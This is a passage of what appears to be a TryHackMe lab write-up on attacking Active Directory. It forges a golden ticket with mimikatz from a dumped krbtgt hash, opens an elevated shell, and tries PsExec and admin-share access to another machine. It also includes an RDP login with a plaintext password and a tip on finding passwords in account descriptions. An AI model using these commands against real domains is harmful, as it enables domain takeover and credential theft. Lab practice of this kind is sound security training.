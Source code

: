 ```
* NTLM-Strong-NTOWF
Random Value : 666caaaaf30081f30211bd7fa445fec4
```

from those we can create a golden Ticket

``kerberos::golden /user: /domain: /sid: /krbtgt: /id:``

in this case it would give

``kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500``

```
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 11/19/2021 4:08:13 PM ; 11/17/2031 4:08:13 PM ; 11/17/2031 4:08:13 PM
-> Ticket : ticket.kirbi

* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated

Final Ticket Saved to file !
```

To use our ticket we run in mimikatz ``misc::cmd``

``Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7D8DA43B8``

This will open a new command prompt with elevated privileges to all machines (amazing)

exit and try stuff like ``dir \\Desktop-1\c$ `` or ``PsExec.exe \\Desktop-1 cmd.exe``

normally you get those commands executed but tryhackme doesnt allow networking here

``The network path was not found.``



## Server Manager

RDP to the machine
``xfreerdp /u:CONTROLLER\Administrator /p:P@$$W0rd /v:10.10.2.124``

If any issue with xfreerdp login remove ``/p:`` and copy Password manually after prompt

Navigate to the tools tab and select the Active Directory Users and Computers

user accounts may set the service accounts passwords inside of the description


